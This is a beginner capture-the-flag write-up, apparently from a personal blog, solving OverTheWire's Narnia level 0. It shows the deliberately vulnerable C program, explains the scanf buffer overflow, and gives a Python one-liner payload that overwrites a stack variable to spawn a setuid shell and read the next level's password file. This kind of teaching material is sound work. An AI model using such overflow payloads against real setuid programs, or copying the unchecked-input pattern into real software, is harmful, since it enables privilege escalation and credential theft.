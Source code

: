 ```yaml
---
layout: post
title:  "Overthewire.org - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

First step is ssh into overthewire.org with the provided credentials for narnia challenges.All Narnia binaries and source files are located in /narnia/. 

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.
```c+

#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input,hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary here is narnia0 and it is a ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

Let's send some crafted inpu to the program and observe 

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we overited the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format which is "\xef\xbe\xad\xde".

## Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

Running the above command give us a shell as narnia1, now we can cat the flag. This is a very simple buffer overflow example.



